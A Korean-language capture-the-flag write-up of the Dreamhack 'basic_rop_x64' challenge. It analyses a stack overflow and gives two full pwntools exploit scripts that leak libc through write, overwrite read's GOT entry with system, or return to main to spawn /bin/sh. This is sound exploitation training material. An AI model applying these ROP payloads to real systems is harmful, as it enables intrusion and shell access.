



# [Dreamhack.io] basic_rop_x64 Write-Up

* **Platform:** Dreamhack
* **Date:** 2026-08-29 (solved) / 2026-08-31 (written)
* **Difficulty:** Easy
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh\x00` 획득
> - **제공 파일:** `Dockerfile`, `basic_rop_x64`, `basic_rop_x64.c`, `flag`, `libc.so.6`
> - **보호 기법:**
> 	```text
> 	Arch: amd64-64-little
> 	RELRO: Partial RELRO
> 	Stack: No canary found
> 	NX: NX enabled
> 	PIE: No PIE (0x400000)
> 	Stripped: No
> 	```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

```c
int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

* `read(0, buf, 0x400)`에서 스택 버퍼 오버플로우가 발생한다.

### 취약점 원인 (Root Cause)
* **발생 원인:** 변수보다 많이 입력받아 생기는 스택 버퍼 오버플로우
* **파급 효과:** `RET` 주소 변경 가능. `Partial RELRO` 이므로 `GOT Overwrite` 가능

### buf2rbp 오프셋
- gdb를 통해 `buf`와 `sfp` 사이의 오프셋을 구해본다.

* `read()`의 두 번째 전달인자인 `rsi`에 `[rbp-0x40]` 주소가 들어가므로, `buf`는 `sfp`로부터 0x40 바이트 떨어져 있음을 알 수 있다.
* 그러면 0x48 (buf2sfp + sfp) 바이트의 더미값을 넣으면 나머지는 원하는 가젯을 통해 흐름을 바꿀 수 있다.

---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ‼️ 페이로드 구성
> - 해결 방법 1: `read@got` 값을 `system` 함수 주소로 바꾼 뒤, `read("/bin/sh")` 실행
> - 해결 방법 2: `read@got` 값을 leak 한 뒤, 다시 메인으로 돌아와 `system("/bin/sh")` 실행

### 🔧 ROP Chain을 구성하기 위해 사용한 가젯
- 주어진 바이너리에 존재하는 가젯을 이용
- `pop rdi; ret;`: `read()`, `system()`의 첫 번째 전달인자를 세팅하기 위해 사용
- `pop rsi; pop r15; ret;`: `read()`의 두 번째 전달인자를 세팅하기 위해 사용
- `ret;`: `system()` 함수 특성상 16비트 정렬을 맞추기 위해 사용

> ❓ 세 번째 전달인자를 세팅하기 위해 `pop rdx` 가젯은 왜 안 썼는가
> `main()`이 리턴되고, `write()`가 호출되어 실행될 시점에 `rdx` 값이 만약 `0`이었다면 아무런 값도 나오지 않았을 것이다.
> 그리고 또한, 바이너리 내에 `pop rdx` 가젯이 없기에 일단 한 번 `rdx`를 세팅하는 가젯 없이 실행해보았다.
> 
> 
> 위의 사진은 `pop rdx` 가젯 없이 실행한 결과이다. 결국 문제와 바이너리에 따라 다르겠지만, 현재 이 바이너리에서는 `write`가 실행될 시점에 `rdx` 레지스터는 크게 설정되어 있으므로 해당 가젯이 없어도 쉘을 획득할 수 있을 것이라 판단했다.

### 💡 해결 방법 1 - One-pass Gadget 이용

* `main()` 함수 스택 프레임 상 `RET` 주소를 다음과 같이 바꾼다.
	1. `write(1, read@got, ...)`을 통해 `read()`의 실제 주소를 얻는다.
	2. `read(0, read@got, ...)`을 통해 `read()`의 GOT Table을 `system()` 주소로 덮어쓰고, `read@got + 0x8` 주소를 `"/bin/sh\x00"`으로 덮어쓴다. 
	3. `read("/bin/sh")`으로 `system("/bin/sh")`을 실행한다.

* `main` 함수가 리턴되어 위의 1번의 과정이 지나면 `read` 함수의 주소를 통해 라이브러리의 베이스 주소를 알게 된다.
* 이 라이브러리의 주소를 통해 `system()` 주소를 알게 되고, 2번 과정의 입력값으로 `[system 함수 주소] + ["/bin/sh\x00"]`을 전달한다.
### 💡 해결 방법 2 - Return to Main 기법 이용

* **ret2main 기법:** `main` 함수가 리턴되고, ROP Chain을 이용해 다시 `main()` 함수를 호출하는 것
1. 처음 `main()` 함수에서 리턴될 때, `write(1, read@got, ...)`을 통해 `read()`의 실제 주소를 얻는다.
2. 그 다음 chain으로, 다시 메인 함수 시작 위치로 `rip`를 이동시킴으로써 다시 바이너리를 실행한다.
3. 이후 `main()` 함수에서 리턴될 때, `system("/bin/sh")`을 호출한다.

* 1번 과정 이후에는 라이브러리의 베이스 주소를 알 수 있으므로, 이를 통해 `system()` 함수의 주소를 구한다.

---

## 4. Exploit Code (최종 익스플로잇 코드)

### 💡 One-gadget Pass을 이용한 Exploit Code

```python
from pwn import *

# p = remote('host3.dreamhack.games', 21460)
p = process('./basic_rop_x64')
e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6')
r = ROP(e)

def slog(name, addr): return success(': '.join([name, hex(addr)]))

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi'])[0]
ret = r.find_gadget(['ret'])[0]

# write(1, read_got, ...)
payload = b'A' * 0x40 + b'B' * 8
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh")
payload += p64(pop_rdi) + p64(read_got + 0x8)
payload += p64(ret) + p64(read_plt)

p.send(payload)

# Calculate libc base
p.recvn(0x40)

read_addr = u64(p.recvn(6) + b'\x00' * 2)
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']

slog('read', read_addr)
slog('libc base', libc_base)
slog('system', system_addr)

p.send(p64(system_addr) + b"/bin/sh\x00")

p.interactive()
```

### 💡 ret2main 기법을 이용한 Exploit Code

```python
from pwn import *

p = remote('host3.dreamhack.games', 21460)
e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6')
r = ROP(e)

def slog(name, addr): return success(': '.join([name, hex(addr)]))

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']
sh = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi'])[0]
ret = r.find_gadget(['ret'])[0]

# ===== Stage 1 =====
success("stage 1")
# write(1, read_got, ...)
payload = b'A' * 0x40 + b'B' * 8
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# return to main
payload += p64(main)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# Calculate libc base
read_addr = u64(p.recvn(6) + b'\x00' * 2)
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
sh_addr = libc_base + sh

slog('read', read_addr)
slog('libc base', libc_base)
slog('system', system_addr)
slog('/bin/sh', sh_addr)

# ===== Stage 2 =====
success("stage 2")
# system("/bin/sh")
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(sh_addr)
payload += p64(system_addr)

p.send(payload)

p.recvuntil(b'A' * 0x40)

p.interactive()
```

- 아래는 One-gadget pass를 이용해 원격에서 익스플로잇 코드를 돌린 결과이다.



---

## 5. 배운 점 && 오답 노드

- **새로 배운 기법:**
	- `ret2main`: 정보를 leak한 이후 다시 `main()`으로 되돌아가 exploit을 진행하는 기법
		- 장점: 익스플로잇 과정을 분리함으로써 각 과정에서의 역할이 명확해진다.
		- 단점: 다시 `main`이 실행되지만, 현재 `rbp`의 값은 변조되어 있으므로, 이후의 스택에 대해 안정성을 보장할 수 없다.